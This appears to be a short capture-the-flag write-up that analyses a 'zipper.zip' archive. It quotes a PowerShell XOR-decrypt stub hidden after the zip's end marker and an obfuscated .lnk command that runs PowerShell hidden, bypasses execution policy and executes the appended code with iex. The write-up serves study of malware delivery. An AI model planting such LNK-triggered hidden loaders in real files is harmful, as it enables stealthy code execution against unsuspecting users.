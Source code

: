# Zipper
We are given a zipper.zip file. The archive contains two files: zipper.jpg and zipper.lnk. Examining the file in hex editor shows that the archive has some data after the end mark:
 
![](pictures/2021-03-26-23-28-53.png)

It is:

```
$x = [System.Convert]::FromBase64String("<b64string>");$pt = [System.Text.Encoding]::UTF8.GetString($(for ($i=0; $i -lt $x.length; $i++){$x[$i] -bxor $key[$i%$key.length]}))
```

However, the key is not present. It can be found inside zipper.lnk, which has the following object string:

```
%comspec% /c powershel%LOCALAPPDATA:~-1% -eP bypasS -win Hi'dde'n -c '&{c:\users $v=dir -force -r -in zipper.zip|select -last 1;$key=[System.Text.Encoding]::UTF8.GetBytes("Ae%4@3SDs");$j=gc -LiteralPat $v.fullname;$j[$j.length-1]|iex;iex($pt)}'"
```

Now we can extract the data:

![](pictures/2021-03-26-23-32-13.png)